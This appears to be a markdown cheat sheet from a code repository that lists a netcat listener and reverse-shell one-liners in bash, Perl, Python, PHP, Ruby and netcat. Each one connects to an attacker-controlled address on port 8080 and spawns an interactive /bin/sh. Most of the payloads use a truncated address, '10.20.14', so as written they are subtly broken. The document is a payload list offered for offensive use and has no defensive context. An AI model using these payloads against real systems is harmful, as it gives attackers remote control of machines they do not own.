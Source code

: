 # Code Execution

## Get a reverse-shell
### Attacker Listening
```cmd
nc -vv -l -p 8080
```

### Payloads
- BASH
```BASH
bash -i >& /dev/tcp/10.20.14.203/8080 0>&1
```
- PERL
```PERL
perl -e 'use Socket;$i="10.20.14";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
- Python
```Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.20.14",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
- PHP
```PHP
php -r '$sock=fsockopen("10.20.14",8080);exec("/bin/sh -i <&3 >&3 2>&3");'
```
- Ruby 
```Ruby
ruby -rsocket -e'f=TCPSocket.open("10.20.14",8080).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
- Netcat 
```cmd
nc -e /bin/sh 10.20.14 8080
```
